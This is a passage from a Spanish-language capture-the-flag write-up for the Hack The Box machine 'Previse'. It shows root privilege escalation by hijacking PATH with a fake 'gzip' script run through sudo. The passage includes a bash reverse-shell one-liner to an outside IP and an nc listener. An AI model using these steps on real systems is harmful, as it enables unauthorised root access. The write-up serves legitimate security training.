m4lwhere@previse:~$ echo $old_path 
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

Ahora, nuestro entorno de trabajo será la carpeta `/tmp/testt`, creémosla:

```bash
m4lwhere@previse:~$ mkdir /tmp/testt; cd /tmp/testt
```

Creamos nuestro archivo `gzip` malicioso, como prueba inicial digámosle que ejecute el comando `id` y su resultado lo guarde en el archivo `/tmp/testt/id.txt`:

```bash
m4lwhere@previse:/tmp/testt$ echo "id > /tmp/testt/id.txt" > gzip
m4lwhere@previse:/tmp/testt$ cat gzip 
id > /tmp/testt/id.txt
```

Le damos permisos de ejecución:

```bash
m4lwhere@previse:/tmp/testt$ chmod +x gzip
```

Ya tendríamos el ejecutable, ahora modifiquemos el `PATH`...

Agregamos `/tmp/testt` al inicio del `PATH` y concatenamos el valor actual del mismo:

```bash
m4lwhere@previse:/tmp/testt$ export PATH=/tmp/testt:$PATH
m4lwhere@previse:/tmp/testt$ echo $PATH
/tmp/testt:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

Peeeerrrfesto, ya lo único sería ejecutar la instrucción que invoca el binario `gzip`, en este caso el script, peeeero con ayuda de sudo, así toda la ejecución seria como el usuario `root`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/previse/373bash_m4lwhereSH_gzipHIJACKING_idTXT.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

YYYYYYYYYYY si sisisisiii, estamos ejecutando comandos en el sistema como el usuario `root` :D entablémonos una reverse shell:

> 👁️‍🗨️ **OJO** (***podemos obtener una Shell como `root` de muuuchas formas con este vector, ya queda en tu imaginación***)

Modificamos el archivo `gzip`:

```bash
m4lwhere@previse:/tmp/testt$ echo "bash -i >& /dev/tcp/10.10.14.93/4434 0>&1" > gzip 
m4lwhere@previse:/tmp/testt$ cat gzip 
bash -i >& /dev/tcp/10.10.14.93/4434 0>&1
```

Nos ponemos en escucha por el puerto `4434`:

```bash
❱ nc -lvp 4434
```

Ejecutamos el script yyyy 🥁:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/previse/373bash_rootRevSH.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

OBTENEMOS UNA SHELL COMO `root`, tamos tamos que tamoooos!!

Ya podríamos ver las flags:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/previse/373flags.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

fffffffffinalizau'

...

Bonita explotación, el inspeccionar código y buscar el fallo me gusto bastante.

Como siempre, una buena canción y a  s e g u i r rompiendo t o d o!!